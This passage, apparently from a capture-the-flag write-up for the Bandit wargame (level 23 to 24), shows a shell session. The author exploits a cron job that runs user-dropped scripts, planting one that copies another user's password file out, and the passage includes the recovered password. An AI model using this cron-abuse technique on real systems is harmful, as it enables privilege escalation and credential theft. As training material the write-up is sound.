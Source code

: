 We see that the script /usr/bin/cronjob_bandit24.sh first executes and then removes all files in the directory /var/spool/$myname/foo. So I put a script in the directory that outputs the password to our tmp dir. 
Remember to set the directory and file permissions, so that this process can execute and write to the directory/file! 

```bash
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:~$ mkdir /tmp/sve110
bandit23@bandit:~$ cd /tmp/sve110
bandit23@bandit:/tmp/sve110$ nano pass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/sve110/pass_file

bandit23@bandit:/tmp/sve110$ chmod +rwx pass.sh 
bandit23@bandit:/tmp/sve110$ chmod 777 pass.sh
bandit23@bandit:/tmp/sve110$ chmod 777 /tmp/sve110
bandit23@bandit:/tmp/sve110$ touch pass_file
bandit23@bandit:/tmp/sve110$ chmod 777 pass_file
bandit23@bandit:/tmp/sve110$ cp pass.sh /var/spool/bandit24/foo/pass.sh
bandit23@bandit:/tmp/sve110$ cat pass_file
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```


## Level 24
